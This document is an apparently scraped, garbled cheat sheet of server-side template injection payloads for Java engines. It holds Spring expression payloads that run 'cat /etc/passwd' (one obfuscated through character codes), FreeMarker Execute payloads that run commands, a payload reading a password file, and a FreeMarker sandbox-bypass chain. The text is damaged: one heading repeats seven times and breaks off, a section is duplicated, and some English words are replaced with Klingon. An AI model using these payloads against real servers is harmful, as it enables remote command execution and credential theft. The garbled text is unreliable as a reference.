 **Java - /etc/passwd**

**Java - /etc/passwd**

**Java - /etc/passwd**

**Java - /etc/passwd**

**Java - /etc/passwd**

**Java - /etc/passwd**

**Java - /
```java
${T(java.lang.Runtime).getRuntime().exec('cat etc/passwd')}

${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(99).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(116)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(47)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(119)).concat(T(java.lang.Character).toString(100))).getInputStream())}
```
### FreeMarker (Java)

You can try your payloads at [https://try.freemarker.apache.org](https://try.freemarker.apache.org)

* `{{7*7}} = {{7*7}}`
* `${7*7} = 49`
* `#{7*7} = 49 -- (legacy)`
* `${7*'7'} Nothing`
* `${foobar}`

### FreeMarker (Java)

[https://try.freemarker.apache.org](https://try.freemarker.apache.org) vItlhutlh

* `{{7*7}} = {{7*7}}`
* `${7*7} = 49`
* `#{7*7} = 49 -- (legacy)`
* `${7*'7'} Nothing`
* `${foobar}`
```java
<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}
[#assign ex = 'freemarker.template.utility.Execute'?new()]${ ex('id')}
${"freemarker.template.utility.Execute"?new()("id")}

${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/home/carlos/my_password.txt').toURL().openStream().readAllBytes()?join(" ")}
```
**Freemarker - Sandbox bypass**

⚠️ **Freemarker** vItlhutlh **2.3.30** Daq **bIyajbe'**.
```java
<#assign classloader=article.class.protectionDomain.classLoader>
<#assign owc=classloader.loadClass("freemarker.template.ObjectWrapper")>
<#assign dwf=owc.getField("DEFAULT_WRAPPER").get(null)>
<#assign ec=classloader.loadClass("freemarker.template.utility.Execute")>
${dwf.newInstance(ec,null)("id")}
```
**Qapla'!**
